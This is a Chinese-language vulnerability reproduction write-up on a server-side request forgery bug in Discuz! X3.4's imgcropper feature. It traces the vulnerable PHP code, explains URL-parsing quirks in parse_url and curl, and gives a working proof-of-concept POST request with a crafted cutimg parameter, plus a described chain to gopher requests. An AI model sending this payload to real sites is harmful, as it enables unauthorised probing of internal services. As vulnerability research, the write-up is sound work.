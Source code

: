```yaml
---
title: Discuz x3.4 imgcropper ssrf
id: zhfly2875
---
```


# Discuz! X3.4 imgcropper ssrf

## 一、漏洞简介

对 PHP、curl 版本都有特殊的要求，而且要服务端环境接受空 Host 的请求，总的来说比较鸡肋

## 二、漏洞影响

## 三、复现过程

`source/class/class_image.php` `image`类`init`方法：

```
 function init($method, $source, $target, $nosuffix = 0) {
        global $_G;

```
 $this-&gt;errorcode = 0;
    if(empty($source)) {
        return -2;
    }
    $parse = parse_url($source);
    if(isset($parse['host'])) {
        if(empty($target)) {
            return -2;
        }
        $data = dfsockopen($source);
        $this-&gt;tmpfile = $source = tempnam($_G['setting']['attachdir'].'./temp/', 'tmpimg_');
        if(!$data || $source === FALSE) {
            return -2;
        }
        file_put_contents($source, $data);
    }
    ...... 
``` `}` 
```

再找哪些地方调用了`image`类的`init`方法，发现`image`类的`Thumb`、`Cropper`、`Watermark`方法都调用了`init`。比如`Thumb`：

```
 function Thumb($source, $target, $thumbwidth, $thumbheight, $thumbtype = 1, $nosuffix = 0) {
        $return = $this->init('thumb', $source, $target, $nosuffix);
        ......
    } 
```

所以再找哪些地方调用了`image`类的`Thumb`方法，最终发现：

`source/module/misc/misc_imgcropper.php` 52-57行：

```
 require_once libfile('class/image');
    $image = new image();
    $prefix = $_GET['picflag'] == 2 ? $_G['setting']['ftp']['attachurl'] : $_G['setting']['attachurl'];
    if(!$image->Thumb($prefix.$_GET['cutimg'], $cropfile, $picwidth, $picheight)) {
        showmessage('imagepreview_errorcode_'.$image->errorcode, null, null, array('showdialog' => true, 'closetime' => true));
    } 
```

下断点调试发现 `$_G['setting']['ftp']['attachurl']` 的值为 `/`，而 `$_G['setting']['attachurl']` 的值是 `data/attachment/`。所以似乎 `$prefix` 为 `/` 才有 SSRF 利用的可能。

一开始构造 `cutimg=/10.0.1.1/get`，这样 `$url` 的值就为 `//10.0.1.1/get`，按道理来说这应该算是一个正常的 url，但是结果却请求失败了。

仔细跟进 `_dfsockopen` 发现，在 PHP 环境安装有 cURL 时，进入 curl 处理的代码分支，直到这里：

```
curl_setopt($ch, CURLOPT_URL, $scheme.'://'.($ip ? $ip : $host).($port ? ':'.$port : '').$path); 
```

`$scheme`、`$host`、`$port`、`$path` 都是 `parse_url` 解析 url 参数后的对应的值，而对像 `//10.0.1.1/get` 这样的 url 解析时，`$scheme` 的值是 `null`，因此最后拼接的结果是 `://10.0.1.1/get`，没有协议，curl 最后对这种url的请求会自动在前面加上 `HTTP://`，结果就变成了请求 `HTTP://://10.0.1.1/get`，这种 url 在我的环境中会导致 curl 报错。

所以我去掉了 curl 扩展，让 `_dfsockopen` 函数代码走 socket 发包的流程，踩了 `parse_url` 和 Dz 代码的一些坑点（这里就不展开了，有兴趣的同学调下代码就知道了），最后发现像这样构造可以成功：

```
cutimg=/:@localhost:9090/dz-imgcropper-ssrf 
```

poc:

```
POST /misc.php?mod=imgcropper&picflag=2&cutimg=/:@localhost:9090/dz-imgcropper-ssrf HTTP/1.1
Host: ubuntu-trusty.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:59.0) Gecko/20100101 Firefox/59.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Cookie: xkmD_2132_sid=E5sbVr; xkmD_2132_saltkey=m6Y8022s; xkmD_2132_lastvisit=1521612483; xkmD_2132_lastact=1521624907%09misc.php%09imgcropper; xkmD_2132_home_readfeed=1521616105; xkmD_2132_seccode=1.ecda87c571707d3f92; xkmD_2132_ulastactivity=a0f4A9CWpermv2t0GGOrf8%2BzCf6dZyAoQ3Sto7ORINqJeK4g3xcX; xkmD_2132_auth=40a4BIESn2PZVmGftNQ2%2BD1ImxpYr0HXke37YiChA2ruG6OryhLe0bUg53XKlioysCePIZGEO1jmlB1L4qbo; XG8F_2132_sid=fKyQMr; XG8F_2132_saltkey=U7lxxLwx; XG8F_2132_lastvisit=1521683793; XG8F_2132_lastact=1521699709%09index.php%09; XG8F_2132_ulastactivity=200fir8BflS1t8ODAa3R7YNsZTQ1k262ysLbc9wdHRzbPnMZ%2BOv7; XG8F_2132_auth=3711UP00sKWDx2Vo1DtO17C%2FvDfrelGOrwhtDmwu5vBjiXSHuPaFVJ%2FC%2BQi1mw4v4pJ66jx6otRFKfU03cBy; XG8F_2132_lip=172.16.99.1%2C1521688203; XG8F_2132_nofavfid=1; XG8F_2132_onlineusernum=3; XG8F_2132_sendmail=1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 36 `imgcroppersubmit=1&formhash=f8472648` 
```

此时 url 即为`//:@localhost:9090/dz-imgcropper-ssrf`。SSRF 请求成功：

![image](../img/7f5ad6a8ac44f19c7f64987c0f0c42f5.png)

通过这种方式进行构造利用的话，不太需要额外的限制条件（只要求服务端 PHP 环境没有安装 curl 扩展）￼，但是只能发 HTTP GET 请求，并且服务端不跟随跳转。漏洞危害有限。

后来 l3m0n 师傅也独立发现了这个漏洞，并且他发现较高版本的 curl 是可以成功请求 `HTTP://:/` 的，较高版本的 curl 会将这种 url 地址解析到 127.0.0.1 的 80 端口：

![image](../img/4925ce6fc80c478331a4ce07cb93dac2.png)

最后他再利用之前 PHP `parse_url` 的解析 bug（ [https://bugs.php.net/bug.php?id=73192](https://link.zhihu.com/?target=https%3A//bugs.php.net/bug.php%3Fid%3D73192) ），及利用 `parse_url` 和 curl 对 url 的解析差异，成功进行 302 跳转到任意恶意地址，最后再 302 跳转到 gopher 就做到发送任意数据包。详情可以参考 l3m0n 的博客：

[Discuz x3.4前台SSRF - l3m0n - 博客园](https://link.zhihu.com/?target=https%3A//www.cnblogs.com/iamstudy/articles/discuz_x34_ssrf_1.html)

但是这种利用方式对 PHP、curl 版本都有特殊的要求，而且要服务端环境接受空 Host 的请求。总的来说，imgcropper SSRF 仍然比较鸡肋。